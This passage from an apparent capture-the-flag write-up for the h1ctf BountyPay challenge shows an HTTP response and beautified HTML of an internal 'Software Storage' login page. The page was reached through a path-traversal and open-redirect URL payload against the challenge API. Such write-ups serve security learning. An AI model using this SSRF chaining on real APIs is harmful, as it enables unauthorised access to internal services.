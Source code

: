 ```

6
```
Response:
```
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 02 Jun 2020 09:42:09 GMT
Content-Type: application/json
Connection: close
Content-Length: 1605

{"url":"https:\/\/api.bountypay.h1ctf.com\/api\/accounts\/..\/..\/redirect?url=https:\/\/software.bountypay.h1ctf.com\/#\/statements?month=11&year=2016","data":"<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n    <meta charset=\"utf-8\">\n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n    <title>Software Storage<\/title>\n    <link href=\"\/css\/bootstrap.min.css\" rel=\"stylesheet\">\n<\/head>\n<body>\n\n<div class=\"container\">\n    <div class=\"row\">\n        <div class=\"col-sm-6 col-sm-offset-3\">\n            <h1 style=\"text-align: center\">Software Storage<\/h1>\n            <form method=\"post\" action=\"\/\">\n                <div class=\"panel panel-default\" style=\"margin-top:50px\">\n                    <div class=\"panel-heading\">Login<\/div>\n                    <div class=\"panel-body\">\n                        <div style=\"margin-top:7px\"><label>Username:<\/label><\/div>\n                        <div><input name=\"username\" class=\"form-control\"><\/div>\n                        <div style=\"margin-top:7px\"><label>Password:<\/label><\/div>\n                        <div><input name=\"password\" type=\"password\" class=\"form-control\"><\/div>\n                    <\/div>\n                <\/div>\n                <input type=\"submit\" class=\"btn btn-success pull-right\" value=\"Login\">\n            <\/form>\n        <\/div>\n    <\/div>\n<\/div>\n<script src=\"\/js\/jquery.min.js\"><\/script>\n<script src=\"\/js\/bootstrap.min.js\"><\/script>\n<\/body>\n<\/html>"}
```

here is the beautified HTML taken from the reponse:
```html
<!DOCTYPE html>
<html lang="en">
   <head>
      <meta charset="utf-8">
      <meta http-equiv="X-UA-Compatible" content="IE=edge">
      <meta name="viewport" content="width=device-width, initial-scale=1">
      <title>Software Storage</title>
      <link href="/css/bootstrap.min.css" rel="stylesheet">
   </head>
   <body>
      <div class="container">
         <div class="row">
            <div class="col-sm-6 col-sm-offset-3">
               <h1 style="text-align: center">Software Storage</h1>
               <form method="post" action="/">
                  <div class="panel panel-default" style="margin-top:50px">
                     <div class="panel-heading">Login</div>
                     <div class="panel-body">
                        <div style="margin-top:7px"><label>Username:</label></div>
                        <div><input name="username" class="form-control"></div>
                        <div style="margin-top:7px"><label>Password:</label></div>
                        <div><input name="password" type="password" class="form-control"></div>
                     </div>
                  </div>
                  <input type="submit" class="btn btn-success pull-right" value="Login">            
               </form>
            </div>
         </div>
      </div>
      <script src="/js/jquery.min.js"></script><script src="/js/bootstrap.min.js"></script>
```